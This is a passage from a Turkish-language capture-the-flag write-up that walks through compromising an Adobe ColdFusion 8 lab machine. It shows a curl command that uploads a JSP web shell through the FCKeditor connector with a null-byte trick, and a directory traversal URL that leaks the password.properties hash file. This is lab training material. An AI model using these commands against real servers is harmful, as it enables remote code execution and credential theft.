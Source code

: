 **curl komutumu güncelleyeceğim**. **-F** argümanında **header'ları form datası içinde** `;` ile ayırarak ayarlayabilirim:

```
curl -X POST -F "newfile=@shell.jsp;type=application/x-java-archive;filename=shell.txt" 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'
```

Şimdi /userfiles/file/ adresini ziyaret ettiğinizde yüklenen shell'i görebilirsiniz:

![Pasted image 20250209193410.png](/img/user/Pasted%20image%2020250209193410.png)


#### Execute Shell

Bu url'yi curl ile ziyaret edebilirim:

![Pasted image 20250209193550.png](/img/user/Pasted%20image%2020250209193550.png)

![Pasted image 20250209193613.png](/img/user/Pasted%20image%2020250209193613.png)

Oradan user.txt dosyasını alabilirim:

### Path 2: Leak Hash, Upload JSP

#### Directory Traversal / Password Hash Leak

Searchsploit'ten alınan bu iki sonuç bir directory traversal güvenlik açığını göstermektedir:

```
Adobe ColdFusion - Directory Traversal                                                                  | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                                     | multiple/remote/16985.rb
```


Python script'ini incelediğimde, **GET isteğini** şu adrese gönderdiğini görüyorum:

```
http://server/CFIDE/administrator/enter.cfm
```

Bu istekte, **locale** parametresi kullanılarak **birkaç dizin yukarı çıkılıyor** ve belirli bir dosyaya erişilmeye çalışılıyor. İstek, `%00en` ile sona eriyor.

Muhtemelen site, **locale** parametresinin belirli bir string ile bitmesini zorunlu kılıyor. Ancak, exploit **null byte (%00)** kullanarak bu kontrolü atlatıyor ve yine de hedef dosyaya erişiyor.

Örnekteki dosya özellikle dikkat çekici çünkü **password.properties** dosyası. Bu dosyayı almak için şu URL'yi ziyaret edeceğim:

```
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

![Pasted image 20250209194459.png](/img/user/Pasted%20image%2020250209194459.png)
